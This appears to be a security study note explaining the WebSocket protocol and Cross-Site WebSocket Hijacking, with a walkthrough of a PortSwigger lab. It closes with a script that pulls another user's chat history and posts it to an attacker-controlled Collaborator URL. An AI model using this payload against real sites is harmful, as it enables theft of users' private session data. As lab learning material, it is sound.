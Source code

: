 # WebSockets

Websockets is a communication protocol that provide for a full-duplex (two-way) interactive communication session between the user's browser and a server. With this, we can send messages to a server and receive responses without having to poll the server for a reply.

This is commonly used in the 'chat' feature in websites, such as raising enquiries to a chatbot or customer service employee. They also allow for users to performactions and stuff. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

## How it Works

This is how the connection is typically established:

<figure><img src="../.gitbook/assets/image (5) (3) (2).png" alt=""><figcaption></figcaption></figure>

A WebSocket handhsake request can be issued like this:

```http
GET /chat HTTP/1.1
Host: example.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
# Taken from HackTricks
```

Then the website would send a reply like this:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
# Taken from HackTricks
```

When the protocols are switched, a channel is opened for bi-directional communications and would remain open until either side closes the channel and the connection terminates.&#x20;

The exploitation happens when we intercept and change the traffic that is being sent through the WebSocket, and this can be done using Burpsuite. For example, we can use this to exploit XSS, SQL Injection, or even Command Injection in some rare cases.

The most common attack however is **Cross-Site Websocket hijacking**, which involves exploitation of the cookie that is used to identify a user. Sometimes, these cookies could be tagged to each unique user, and stealing it allows for impersonation of another user and reading of sensitive information.

## Example

This is the lab we will be using for this example:

{% embed url="https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab" %}

In this lab, there is a chatbot that relates each user to his websocket session via a sent cookie. The chatbot then sends back the entire history of each session once the word 'READY' is sent to it via websockets.

We can manipulate this by sending a basic XSS script that would retrieve the information and send it to our own attack server, in this case BurpSuite Collaborator is used.

```markup
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Then, our Burpsuite host would receive a callback that would contain all the data from another user's session.&#x20;
